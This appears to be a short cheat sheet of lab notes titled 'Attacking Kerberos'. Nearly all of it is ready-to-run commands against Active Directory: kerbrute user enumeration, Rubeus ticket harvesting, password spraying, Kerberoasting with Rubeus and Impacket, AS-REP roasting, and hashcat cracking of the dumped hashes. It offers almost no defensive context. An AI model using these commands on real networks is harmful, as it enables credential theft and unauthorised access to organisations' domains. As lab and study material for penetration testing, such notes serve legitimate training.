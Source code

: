 # Attacking Kerberos

> Shahrukh Tramboo | January 6th, 2022

--------------------------------------

## Kerberute

This does not require the local account access

https://github.com/ropnop/kerbrute/releases

**Enumerating Users with Kerbrute**


```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Rebeus 

**Harvesting tockets with Rebeus**

```bash
Rubeus.exe harvest /interval:30
```

**Brute-Forcing / Password-Spraying with Rubeus**

Add the IP and domain name to the hosts file from the machine,and then "spray" it against all found users then give the .kirbi TGT for that user.

```bash
echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
Rubeus.exe brute /password:Password1 /noticket
```

**Kerberoasting with Rubeus**

Dump Kerberos hash of any kerberoastable users

```bash
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

**Kerberoasting with Impacket**

```bash
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request
```

**AS-REP Roasting with Rubeus**

This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

```bash
Rubeus.exe asreproast
```

Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.











